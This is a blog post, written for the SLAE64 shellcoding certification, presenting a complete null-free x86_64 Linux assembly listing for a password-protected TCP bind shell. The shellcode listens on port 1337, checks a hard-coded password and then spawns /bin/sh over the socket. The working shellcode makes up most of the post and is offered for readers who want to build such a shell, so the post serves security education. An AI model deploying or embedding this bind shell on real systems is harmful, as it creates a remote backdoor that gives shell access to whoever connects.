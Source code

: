 ```yaml
---
layout: single
title: Password Protected TCP Bind Shell - Linux x86_64
date: 2018-7-14
classes: wide
header:
  teaser: /assets/images/Password_Protected_TCP_Bind_Shell_Linux_x86_64/BindShellDemo.gif
---
```


Introduction
------------
In this post we will create a custom TCP bind shell for Linux x86_64 architecture that requires password to spawn a shell. Please note we wont be going into too much details on how each function work as this has already been discussed in my previous post [here](https://ihack4falafel.github.io/Creating-Custom-TCP-Bind-Shell-~-Linux-x86/).

Shellcode
---------
If you’re not familiar with x86_64 assembly its pretty much the same as x86 from shellcoding perspective. The following are the key add-ons (I should say) that you get when using x86_64 assembly as opposed to x86:

* The registers hold twice as much as x86 ones (8 bytes).
* You have 8 more registers (R8-R15).
* The ability to craft position independent shellcode using Instruction Pointer Relative Addressing.

I used `read()` function to check for input via `stdin` and then compare it to a predefined password (in this case I used `pwnd`), if the check fails the shellcode will jump to `_nop` section which will effectivly cause the bind shell to crash. Please refer to the link in the introduction section for more in-depth analysis of the functions used by the bind shell. The following is the final null-free shellcode.

```nasm
global _start

section .text

_start:

	; int socket(int domain, int type, int protocol)
	; rax=41, rdi=2, rsi=1, rdx=0
	xor esi,esi
	mul esi                
	inc esi
	push 2 
	pop rdi
	add al, 41
	syscall

	; save socket fd in rdi
	xchg   rdi,rax

	; setup sockaddr strcture (af_inet=2, port=1337, inaddr_any, 0)
     push 2
     mov word [rsp + 2], 0x3905
     push rsp      
     pop rsi

	; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
	; rax=49, rdi=fd, rsi=rsp, rdx=16
	push 0x31
	pop rax
	push rsp
	pop rsi
	push 0x10
	pop rdx
	syscall

	; int listen(int sockfd, int backlog)
	; rax=50, rdi=fd, rsi=who cares
	pop rsi
	push 0x32
	pop rax
	syscall

	; new = accept(sock, (struct sockaddr *)&client, &sockaddr_len)
	; rax=43, rdi=fd, rsi=rsp, rdx=16
	sub rsp, 0x10
	push rsp
	pop rsi
	push 0x2b
	pop rax
	push 0x10
	push rsp
	pop rdx
	syscall

	; store newly spawnd fd in r9
	xchg r9,rax

	; close parent socket
	xor rax, rax
	push 0x30
	pop rax
	syscall

	; dup2 (new, old)
	; rax=33, rdi=new fd, rsi=0,1,2 (stdin, stdout, stderr)
	xchg   rdi,r9
	push 0x3
	pop rsi
_loop:
	push 0x21
	pop rax
	dec esi
	syscall
	loopnz _loop

	; read (int fd, void *bf, size_t count)
	; rax=0, rdi=0 (stdin), rsi=rsp, rdx=4 (pwnd)
	xor rax, rax
	push rax
	pop rdi
	push rax
	push rsp
	pop rsi
	push 0x4
	pop rdx
	syscall

	; check passcode (pwnd)
	push 0x646e7770
	pop rbx
	cmp dword [rsi], ebx
	jne _nop

	; int execve(cont char *filename, char *const argv[], char *const envp[])
	; rax=59, rdi=*/bin//sh, rsi=0, rdx=0
	xor rax, rax
	push rax
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	push rax
	push rsp
	pop rsi
	cdq
	push 0x3b
	pop rax
	syscall
	
_nop:
	nop
```

Now comes that fun part, let’s test out the shellcode.

![](/assets/images/Password_Protected_TCP_Bind_Shell_Linux_x86_64/BindShellDemo.gif)

Closing Thoughts
----------------
I feel like passwords are essential when it comes to bind shells and hope this post will benefit folks looking to create one. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%201). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel). This post is one of many to come so stay tuned!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
